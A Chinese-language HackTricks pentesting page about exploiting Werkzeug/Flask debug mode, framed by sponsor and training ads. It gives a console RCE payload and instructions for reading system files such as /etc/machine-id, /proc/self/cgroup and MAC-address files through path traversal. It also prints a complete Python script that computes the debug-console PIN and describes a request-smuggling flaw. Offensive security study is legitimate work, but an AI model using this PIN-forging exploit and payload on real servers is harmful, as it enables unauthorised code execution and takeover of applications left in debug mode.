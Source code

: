 # Werkzeug / Flask Debug

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

<figure><img src="../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**即时可用的漏洞评估与渗透测试设置**。从任何地方运行完整的渗透测试，使用 20 多种工具和功能，从侦察到报告。我们不替代渗透测试人员 - 我们开发自定义工具、检测和利用模块，以便让他们有更多时间深入挖掘、获取 shell 并享受乐趣。

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## 控制台 RCE

如果调试处于活动状态，您可以尝试访问 `/console` 并获得 RCE。
```python
__import__('os').popen('whoami').read();
```
![](<../../.gitbook/assets/image (117).png>)

互联网上还有几个漏洞，比如[这个](https://github.com/its-arun/Werkzeug-Debug-RCE)或metasploit中的一个。

## PIN保护 - 路径遍历

在某些情况下，**`/console`** 端点将受到PIN保护。如果您有**文件遍历漏洞**，您可以泄露生成该PIN所需的所有信息。

### Werkzeug控制台PIN漏洞

在应用程序中强制显示调试错误页面以查看此内容：
```
The console is locked and needs to be unlocked by entering the PIN.
You can find the PIN printed out on the standard output of your
shell that runs the server
```
在尝试访问 Werkzeug 的调试接口时，会遇到关于“控制台锁定”的消息，指示需要一个 PIN 来解锁控制台。建议通过分析 Werkzeug 的调试初始化文件 (`__init__.py`) 中的 PIN 生成算法来利用控制台 PIN。可以从 [**Werkzeug 源代码库**](https://github.com/pallets/werkzeug/blob/master/src/werkzeug/debug/\_\_init\_\_.py) 研究 PIN 生成机制，但建议通过文件遍历漏洞获取实际服务器代码，以避免潜在的版本差异。

要利用控制台 PIN，需要两组变量，`probably_public_bits` 和 `private_bits`：

#### **`probably_public_bits`**

* **`username`**：指发起 Flask 会话的用户。
* **`modname`**：通常指定为 `flask.app`。
* **`getattr(app, '__name__', getattr(app.__class__, '__name__'))`**：通常解析为 **Flask**。
* **`getattr(mod, '__file__', None)`**：表示 Flask 目录中 `app.py` 的完整路径（例如，`/usr/local/lib/python3.5/dist-packages/flask/app.py`）。如果 `app.py` 不适用，**尝试 `app.pyc`**。

#### **`private_bits`**

* **`uuid.getnode()`**：获取当前机器的 MAC 地址，`str(uuid.getnode())` 将其转换为十进制格式。
* 要 **确定服务器的 MAC 地址**，必须识别应用使用的活动网络接口（例如，`ens3`）。如果不确定，**泄露 `/proc/net/arp`** 以找到设备 ID，然后 **从 `/sys/class/net/<device id>/address`** 中提取 MAC 地址。
*   可以按如下方式将十六进制 MAC 地址转换为十进制：

```python
# 示例 MAC 地址: 56:00:02:7a:23:ac
>>> print(0x5600027a23ac)
94558041547692
```
* **`get_machine_id()`**：将 `/etc/machine-id` 或 `/proc/sys/kernel/random/boot_id` 中的数据与 `/proc/self/cgroup` 的第一行在最后一个斜杠（`/`）之后的部分连接起来。

<details>

<summary>`get_machine_id()` 的代码</summary>
```python
def get_machine_id() -> t.Optional[t.Union[str, bytes]]:
global _machine_id

if _machine_id is not None:
return _machine_id

def _generate() -> t.Optional[t.Union[str, bytes]]:
linux = b""

# machine-id is stable across boots, boot_id is not.
for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
try:
with open(filename, "rb") as f:
value = f.readline().strip()
except OSError:
continue

if value:
linux += value
break

# Containers share the same machine id, add some cgroup
# information. This is used outside containers too but should be
# relatively stable across boots.
try:
with open("/proc/self/cgroup", "rb") as f:
linux += f.readline().strip().rpartition(b"/")[2]
except OSError:
pass

if linux:
return linux

# On OS X, use ioreg to get the computer's serial number.
try:
```
</details>

在收集所有必要数据后，可以执行漏洞利用脚本以生成 Werkzeug 控制台 PIN：

在收集所有必要数据后，可以执行漏洞利用脚本以生成 Werkzeug 控制台 PIN。该脚本使用组装的 `probably_public_bits` 和 `private_bits` 创建一个哈希，然后经过进一步处理以生成最终的 PIN。以下是执行此过程的 Python 代码：
```python
import hashlib
from itertools import chain
probably_public_bits = [
'web3_user',  # username
'flask.app',  # modname
'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
'/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
'279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode('utf-8')
h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
h.update(b'pinsalt')
num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
for x in range(0, len(num), group_size))
break
else:
rv = num

print(rv)
```
这个脚本通过对连接的位进行哈希，添加特定的盐（`cookiesalt` 和 `pinsalt`），并格式化输出，生成 PIN。需要注意的是，`probably_public_bits` 和 `private_bits` 的实际值需要从目标系统准确获取，以确保生成的 PIN 与 Werkzeug 控制台预期的匹配。

{% hint style="success" %}
如果您使用的是 **旧版本** 的 Werkzeug，请尝试将 **哈希算法更改为 md5** 而不是 sha1。
{% endhint %}

## Werkzeug Unicode 字符

正如在 [**这个问题**](https://github.com/pallets/werkzeug/issues/2833) 中观察到的，Werkzeug 不会关闭带有 Unicode 字符的请求头。正如在 [**这个写作**](https://mizu.re/post/twisty-python) 中解释的，这可能导致 CL.0 请求走私漏洞。

这是因为，在 Werkzeug 中可以发送一些 **Unicode** 字符，这会导致服务器 **崩溃**。然而，如果 HTTP 连接是通过 **`Connection: keep-alive`** 头创建的，请求的主体将不会被读取，连接仍将保持打开状态，因此请求的 **主体** 将被视为 **下一个 HTTP 请求**。

## 自动化利用

{% embed url="https://github.com/Ruulian/wconsole_extractor" %}

## 参考文献

* [**https://www.daehee.com/werkzeug-console-pin-exploit/**](https://www.daehee.com/werkzeug-console-pin-exploit/)
* [**https://ctftime.org/writeup/17955**](https://ctftime.org/writeup/17955)
* [**https://github.com/pallets/werkzeug/issues/2833**](https://github.com/pallets/werkzeug/issues/2833)
* [**https://mizu.re/post/twisty-python**](https://mizu.re/post/twisty-python)

<figure><img src="../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**即时可用的漏洞评估和渗透测试设置**。从任何地方运行完整的渗透测试，使用 20 多种工具和功能，从侦察到报告。我们不替代渗透测试人员 - 我们开发自定义工具、检测和利用模块，以便让他们有更多时间深入挖掘、获取 shell 并享受乐趣。

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
学习和实践 AWS 黑客攻击：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客攻击：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在 Twitter 上关注** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
